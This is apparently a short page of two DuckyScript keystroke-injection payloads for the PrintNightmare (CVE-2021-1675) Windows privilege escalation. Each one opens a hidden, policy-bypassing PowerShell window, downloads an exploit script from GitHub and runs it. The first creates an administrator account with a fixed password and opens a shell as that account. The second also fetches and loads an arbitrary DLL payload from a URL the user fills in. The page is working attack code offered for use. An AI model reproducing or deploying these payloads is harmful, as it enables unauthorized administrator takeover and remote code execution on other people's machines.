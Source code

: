 Reference https://github.com/calebstewart/CVE-2021-1675

**CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Create an administrative user and spawn a command prompt as the new administrative user.**
```REM CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Create administrative user and spawn a command prompt as the new administrative user.
GUI r
DELAY 150
STRING powershell -NoP -NonI -W Hidden -Exec Bypass "IEX (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1',\"$env:temp\cve20211675.ps1\"); Import-Module \"$env:temp\cve20211675.ps1\"; Invoke-Nightmare"
ENTER
DLEAY 1000
GUI r
DELAY 150
STRING cmd
DELAY 150
ENTER
DELAY 150
STRING runas /user:adm1n cmd.exe
ENTER
DELAY 150
STRING P@ssw0rd
DELAY 150
ENTER
```

**CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Hidden Payload DLL Executor**

Replace the `ESCAPED URL TO DLL HERE` with the URL to your desired DLL payload
```
REM CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Hidden Payload DLL Executor
GUI r
DELAY 150
STRING powershell -NoP -NonI -W Hidden -Exec Bypass "IEX (New-Object System.Net.WebClient).DownloadFile('ESCAPED URL TO DLL HERE',\"$env:temp\p4yl0ad.dll\"); IEX (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1',\"$env:temp\cve20211675.ps1\"); Import-Module \"$env:temp\cve20211675.ps1\"; Invoke-Nightmare -DLL \"$env:temp\p4yl0ad.dll\""
ENTER
```